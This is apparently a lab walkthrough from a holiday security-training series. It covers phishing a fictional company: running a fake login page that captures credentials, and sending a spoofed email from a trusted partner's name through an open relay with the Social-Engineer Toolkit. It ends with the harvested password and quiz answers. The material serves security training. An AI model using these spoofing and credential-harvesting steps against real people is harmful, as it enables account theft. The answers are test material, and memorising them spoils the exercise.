

# Phishing - Merry Clickmas

# Task 1: Introduction

In light of several recent cyber security threats against The Best Festival Company (TBFC), the local red team has scheduled several penetration tests. The red teamers proceeded to carry out a regular penetration test against their TBFC. Part of this exercise is to ensure that the employees are diligent when clicking links and that the company is well protected against the latest phishing attacks. This type of authorised phishing is a proven way to learn whether the cyber security awareness training has fruited.

In this task, you will be part of the TBFC local red team with the elves Recon McRed, Exploit McRed, and Pivot McRed. You will help them plan and execute their phishing campaign. It is time to see if more cyber security awareness training is required.

## **Learning Objectives**

- Understand what social engineering is
- Learn the types of phishing
- Explore how red teams create fake login pages
- Use the Social-Engineer Toolkit to send a phishing email

# Task 2: Phishing Exercise for TBFC

## **Social Engineering**

**Social engineering** refers to manipulating a user to make a mistake. Examples of such mistakes include sharing a password, opening a malicious file, and approving a payment. The term “social” means that the target of such an attack is human beings, not computer systems. Consequently, the attacker relies on psychological tricks to get the target user to cooperate. Some psychological factors that can play a key role in the success of such attacks are urgency, curiosity, and authority. This is why some would refer to social engineering as “human hacking”.


## **Phishing**

Phishing is a subset of social engineering in which the communication medium is mostly messages. At one point, the most common phishing attacks happened via email; however, the spread of smartphones, along with ubiquitous Internet access, has spread phishing to short text messages (smishing), voice calls (vishing), QR codes (quishing), and social-media direct messages. The attacker’s purpose is to make the target user click, open, or reply to a message so that the attacker can steal information, money, or access.

Unfortunately, phishing attacks are becoming harder to spot. Even careful people might fall target to such attacks if they don’t exercise proper care. TBFC cyber security awareness training teaches users about two anti-phishing mnemonics written as S.T.O.P. The first S.T.O.P. is from [All Things Secured,](https://www.allthingssecured.com/tips/email-phishing-scams-stop-method/) which tells users to ask the following questions before acting on an email:

- **Suspicious**?
- **Telling me** to click something?
- **Offering me** an amazing deal?
- **Pushing me** to do something now?

The second S.T.O.P. reminds users to follow the following instructions:

- **Slow down**. Scammers run on your adrenaline.
- **Type the address yourself**. Don’t use the message’s link.
- **Open nothing unexpected**. Verify first.
- **Prove the sender**. Check the real From address/number, not just the display name.

After hours of periodic cyber security training, the red team checks to see if the TBFC staff can dodge “fishy” emails.

## **Building the Trap**

You must sound very convincing as a penetration tester for a successful phishing attack. It’s not only how you write the phishing email or messages, but also how you set up the trap for the target. The trap can be anything, depending on your objectives and the research you conduct on the target. Sometimes, attackers aim to compromise the target’s machine, and they achieve this by attaching a malicious file to their phishing email. Attackers sometimes craft a web page that mimics a legitimate login page to steal the target’s credentials.

In this task, we aim to acquire the target user’s login credentials. Our trap would be a fake TBFC portal login page, which we attach to the phishing email and send to the target. But a login page itself is not enough. We need to host it and implement some logic to capture the credentials entered by the target. To facilitate your task, we have already set up a script that, when run, will host a fake login page. The phoney login page we created will capture all the credentials entered into the page.

The script is already placed on the AttackBox at `~/Rooms/AoC2025/Day02`. Alternatively, if you want to use your own THM VPN connected machine, you can download the script via the **Download Task Files** button below. Make sure to keep both files in the same directory.

Download Task Files

To run the script, use `./server.py` and it will start listening for any credentials. If the target gets trapped and enters the credentials, it will be shown on the same terminal.

```bash
root@attackbox:~# cd ~/Rooms/AoC2025/Day02
root@attackbox:~/Rooms/AoC2025/Day02# ./server.py
Starting server on http://0.0.0.0:8000
```

The above message indicates that the phishing web application is listening on port 8000; moreover, the `0.0.0.0` implies that it is bound to all interfaces. To confirm what the user will see, use Firefox on the AttackBox and browse to `http://CONNECTION_IP:8000` or `http://127.0.0.1:8000`; either of these addresses will show you what the user will see. With this set, it is time to email this link to test our users’ vigilance.

## **Delivery via Social-Engineer Toolkit (SET)**

As our phishing page is ready, we can now prepare and send the phishing email to our target users. Sending it from our personal email is the worst idea. Ideally, the email should appear to be coming from a legitimate-looking sender; for example, we can pretend to be somebody the target user trusts or expects to get such an email from them. The more a phishing email appears realistic, the more likely it is for the target user to believe it and get phished. The question is how we can send a realistic-looking email that contains our fake login page.

One solution is to use the [Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit). It is an open-source tool primarily designed by David Kennedy for social engineering attacks. It offers a wide range of features. In particular, it lets you compose and send a phishing email. In the current scenario, we will use this tool to create and send a phishing email to the target user.

Let’s start creating the phishing email through the SET tool. Before you use this tool, please remember that it will involve multiple steps, each asking different questions about the phishing email you intend to send. So, please be patient and follow along the process.

To start the tool, type `setoolkit` into the terminal, and it will present you with a menu containing multiple options. At the bottom, you will see `set>`, where you can input your desired option number. For our case, we would select option `1`, i.e., `Social-Engineering Attacks`. If you choose the wrong option at any stage, the option `99` will take you back to the main menu, where you can start again. However, if you commit any mistake while writing the phishing email, you would have to press `Ctrl + C` to return to the main menu. The social engineering attacks cover various attacks from spear-phishing and mass mailer attacks to wireless access point attacks.

```bash
root@attackbox:~# setoolkit[...]
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 1
```

Choosing `1` will display another menu with the type of social engineering attack we want to use in our attack. In this case, we will pick **Mass Mailer Attack** by typing `5`.

```bash
 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) PowerShell Attack Vectors
  10) Third-Party Modules

  99) Return back to the main menu.

set> 5
```

Now, we would be asked to select between two options. One option allows us to send the phishing email to a single address, while the other option enables us to send an email to many people. Here, we would select option `1`, i.e., `E-Mail Attack Single Email Address`.

```bash
   Social Engineer Toolkit Mass E-Mailer

   There are two options on the mass e-mailer: the first is to email one person. The second option
   will allow you to import a list and send it to as many people as
   you want within that list.

   What do you want to do:

    1. E-Mail Attack Single Email Address
    2. E-Mail Attack Mass Mailer

    99. Return to the main menu.

set:mailer> 1
```

Now, we will have several questions to answer and various fields to fill out. The first set of questions concerns the email addresses and how the email will be routed and delivered. After each input provided, we can press **Enter** to get to the next question.

- **Send email to**: Let’s begin by targeting `factory@wareville.thm`
- **How to deliver the email**: We will choose `Use your own server or open relay`
- **From address**: We know that the guys at the toy factory communicate regularly with Flying Deer, the shipping company, so that we will use `updates@flyingdeer.thm` as the source email address
- **From name**: Let’s use the name `Flying Deer`
- **Username for open-relay**: We will leave it blank and just hit the **Enter** key
- **Password for open-relay**: We will leave it blank and just hit the **Enter** key
- **SMTP email server address**: We will deliver directly to the TBFC mail server by entering `10.80.140.123`.
- **Port number for the SMTP server**: We leave the default value of `25` and just hit the **Enter** key

The next set of questions will ask if you want to send it as a high priority or attach a file.

- **Flag this message as high priority:** The choice is entirely up to you, depending on your knowledge of the circumstances, but we will answer with `no`
- **Do you want to attach a file:** We will answer with `n`
- **Do you want to attach an inline file:** Again, let’s answer with `n`

Finally, we pick an email subject and enter the message contents in plaintext or HTML.

- **Email subject:** We need to think of something convincing, for example, “Shipping Schedule Changes”
- **Send the message as HTML or plain:** We will keep the default choice of plaintext and just hit the **Enter** key
- **Enter the body of the message, and type END (capitals) when finished:** Create and type any convincing message. Make sure to include the URL `http://CONNECTION_IP:8000` to check if the target will fall for this trick.

An example interaction is shown in the terminal below.

```bash
set:mailer>1
set:phishing> Send email to:factory@wareville.thm

  1. Use a Gmail account for your email attack.
  2. Use your own server or open relay

set:phishing>2
set:phishing> From address (ex: moo@example.com):updates@deershipping.thm
set:phishing> The FROM NAME the user will see:Deer Shipping
set:phishing> Username for open-relay [blank]:
Password for open-relay [blank]:
set:phishing> SMTP email server address (ex. smtp.youremailserveryouown.com):10.80.140.123
set:phishing> Port number for the SMTP server [25]:
set:phishing> Flag this message/s as high priority? [yes|no]:no
Do you want to attach a file - [y/n]: n
Do you want to attach an inline file - [y/n]: n
set:phishing> Email subject:Shipping Schedule Changes
set:phishing> Send the message as HTML or plain? 'h' or 'p' [p]:
[!] IMPORTANT: When finished, type END (all capital) then hit {return} on a new line.
set:phishing> Enter the body of the message, type END (capitals) when finished:Dear elves,
Next line of the body: Kindly note that there have been significant changes to the shipping schedules due to increased shipping orders.
Next line of the body: Please confirm the new schedule by visiting http://CONNECTION_IP:8000
Next line of the body: Best regards,
Next line of the body: Flying Deer
Next line of the body: END
[*] SET has finished sending the emails

      Press <return> to continue
```

Now, the phishing email has been sent to the target. The **"Press <return> to continue"** button is just the Enter button to restart the tool. Open the terminal where our `server.py` script is running to see if the user gets trapped and enters their credentials.

<aside>
💡

You may have to wait for 1 - 2 minutes and observe the terminal for any credentials entered by the user.

</aside>

To the TBFC red team’s surprise, they received at least one set of working credentials. This result is alarming; it means that an adversary could succeed in a similar attack if it has not already been done. Considering the received credentials, if an adversary gains such access, they can easily wreck the whole gift delivery system. It is vital to check if such an attack has taken place and act accordingly.

```bash
─$ ./server.py 
Starting server on http://0.0.0.0:8000
127.0.0.1 - - [02/Dec/2025 22:13:29] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [02/Dec/2025 22:13:29] "GET /favicon.ico HTTP/1.1" 404 -
127.0.0.1 - - [02/Dec/2025 22:15:04] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [02/Dec/2025 22:29:11] "GET / HTTP/1.1" 200 -
10.80.140.123 - - [02/Dec/2025 22:39:40] "GET / HTTP/1.1" 200 -
[2025-12-02 22:39:41] Captured -> username: admin    password: unranked-wisdom-anthem    from: 10.80.140.123
10.80.140.123 - - [02/Dec/2025 22:39:41] "POST /submit HTTP/1.1" 303 -
10.80.140.123 - - [02/Dec/2025 22:39:41] "GET / HTTP/1.1" 200 -

```

---

### Answer the questions below

What is the password used to access the TBFC portal?

> unranked-wisdom-anthem
> 

Browse to `http://10.80.140.123` from within the AttackBox and try to access the mailbox of the `factory` user to see if the previously harvested `admin` password has been reused on the email portal. What is the total number of toys expected for delivery?

<aside>
💡

factory:unranked-wisdom-anthem should be used to access the mailbox.

</aside>

> 1984000
> 


